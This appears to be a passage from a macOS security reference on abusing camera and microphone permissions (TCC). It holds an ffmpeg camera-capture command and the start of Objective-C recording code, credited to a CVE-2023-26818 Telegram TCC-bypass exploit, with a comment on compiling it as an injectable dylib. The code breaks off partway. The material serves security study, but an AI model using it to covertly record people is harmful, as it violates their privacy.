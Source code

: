 {% tab title="Shell" %}
Take a photo with the camera

```bash
ffmpeg -framerate 30 -f avfoundation -i "0" -frames:v 1 /tmp/capture.jpg
```
{% endtab %}
{% endtabs %}

### Microphone

* **Entitlement**: **com.apple.security.device.audio-input**
* **TCC**: `kTCCServiceMicrophone`

{% tabs %}
{% tab title="ObjetiveC - Record" %}
Record 5s of audio an store it in `/tmp/recording.m4a`

```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// Code from https://www.vicarius.io/vsociety/posts/cve-2023-26818-exploit-macos-tcc-bypass-w-telegram-part-1-2
// gcc -dynamiclib -framework Foundation -framework AVFoundation Micexploit.m -o Micexploit.dylib

@interface AudioRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>

@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *audioDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *audioFileOutput;

- (void)startRecording;
- (void)stopRecording;

@end

@implementation AudioRecorder

- (instancetype)init {
    self = [super init];
    if (self) {
        [self setupCaptureSession];
    }
    return self;
}

- (void)setupCaptureSession {
    self.captureSession = [[AVCaptureSession alloc] init];
    self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;

    AVCaptureDevice *audioDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeAudio];
    NSError *error;
    self.audioDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:audioDevice error:&error];

    if (error) {
        NSLog(@"Error setting up audio device input: %@", [error localizedDescription]);
        return;
    }

    if ([self.captureSession canAddInput:self.audioDeviceInput]) {
        [self.captureSession addInput:self.audioDeviceInput];
    }

    self.audioFileOutput = [[AVCaptureMovieFileOutput alloc] init];

```